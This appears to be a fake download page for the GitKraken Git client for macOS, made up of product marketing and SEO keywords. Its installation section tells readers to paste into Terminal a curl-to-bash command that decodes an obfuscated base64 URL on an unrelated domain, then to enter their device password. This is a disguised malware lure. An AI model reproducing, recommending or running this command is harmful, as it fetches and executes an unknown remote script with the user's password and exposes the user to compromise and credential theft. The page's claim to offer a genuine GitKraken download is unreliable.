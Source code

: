 # GitKraken Mac Download - Professional Git Client  

![GitKraken Screenshot 1](https://www.gitkraken.com/wp-content/uploads/2023/03/gitkraken-client-og.png)  

---  

### 🔽 Download GitKraken for Mac

> 📥 Open the terminal on your device and paste the command below.
1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is GitKraken for Mac?  

GitKraken is a premium graphical user interface for Git version control that transforms complex command-line operations into intuitive visual workflows. Designed specifically for developers working on macOS, GitKraken provides an elegant solution for repository management that's equally powerful for solo developers and large enterprise teams.  

The application features a stunning visual commit graph that makes understanding branch relationships and project history effortless. Unlike traditional Git clients, GitKraken offers drag-and-drop functionality for commits, branches, and tags, along with built-in conflict resolution tools that simplify merge operations. The interface includes a comprehensive diff viewer with syntax highlighting for all major programming languages.  

GitKraken excels in team collaboration with its built-in code review system, real-time collaboration features, and seamless integration with GitHub, GitLab, and Bitbucket. The application supports Git LFS for large files and includes advanced tools for submodule management and interactive rebasing. Developers appreciate the dark mode UI, customizable keyboard shortcuts, and performance optimizations for large repositories.  

For enterprise users, GitKraken offers secure credential management, SAML single sign-on, and audit logging. The application is trusted by over 10 million developers worldwide and is particularly popular among web developers, mobile app teams, and open-source contributors working on Mac systems.  

![GitKraken Screenshot 2](https://static.macupdate.com/screenshots/345142/m/gitkraken-screenshot.png) 

---  

## Key Features & Benefits  

- 🌟 **Visual Commit History** - Intuitive graph of branches and merges  
- 🤝 **Team Collaboration** - Built-in code reviews and real-time updates  
- 🔄 **GitHub/GitLab Integration** - Sync with popular Git hosts  
- 🛠 **Conflict Resolution** - Visual tools for easy merge conflict handling  
- ⚡ **Performance Optimized** - Handles large repos with ease  
- 🔒 **Enterprise Security** - SAML SSO and audit logging  

GitKraken makes version control more accessible and productive for every developer.  

---  

## 🔍 Keywords  

GitKraken Mac, GitKraken Mac Download, GitKraken for Mac Download, GitKraken Mac, GitKraken Download Mac, GitKraken Download for Mac, GitKraken full version, Mac Download GitKraken, Download Mac GitKraken, Download GitKraken Mac, Download GitKraken for Mac 
